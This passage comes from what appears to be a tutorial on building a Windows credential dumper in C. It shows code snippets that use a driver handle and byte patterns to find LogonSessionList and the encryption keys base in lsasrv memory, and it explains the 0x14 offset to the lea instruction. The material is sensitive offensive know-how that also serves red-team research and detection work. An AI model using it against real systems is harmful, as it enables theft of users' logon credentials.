 
Now we have the memory address of our patterns for LogonSessionList and the keys base!


## FInd LogonSessionList

Now with our pattern we can find the actual LogonSessionList structure. We discussed this in Windbg above so now its time to implement that in C code.

```c
Patterns bytePatterns
bytePatterns = driver::findLogonSessionList(hDriver, pLsasrv, pEnd);
```

We can access the LogonSessionList pattern through `bytePatterns.pLogonSessionListPattern`.

```c
pLsl = bytePatterns.pLogonSessionListPattern;
pKeysBase = bytePatterns.pKeysPattern;
```

Then from here we apply a `0x14` offset from the pattern match address that brings us back up to the `lea` instruction:

![lea](attachments/Pasted%20image%2020250902214235.png)
![lea2](attachments/Pasted%20image%2020250903191427.png)

```c

PVOID pLslActual = (PVOID)((BYTE*)pLsl + 0x14); //offset to 00007ffd`fc17e398 488d0d915b1200  lea     rcx,[lsasrv!LogonSessionList (00007ffd`fc2a3f30)] lea instruction to retr address
```
You can see the instruction in memory with each of the assembly instructions underlined in a different color, followed by the offset that we're looking for thaat will yield the LogonSessionList highlighted in yellow:
![instruction](attachments/Pasted%20image%2020250903191652.png)

```
488d0d = Assembly bytes
915b1200 = Offset
```
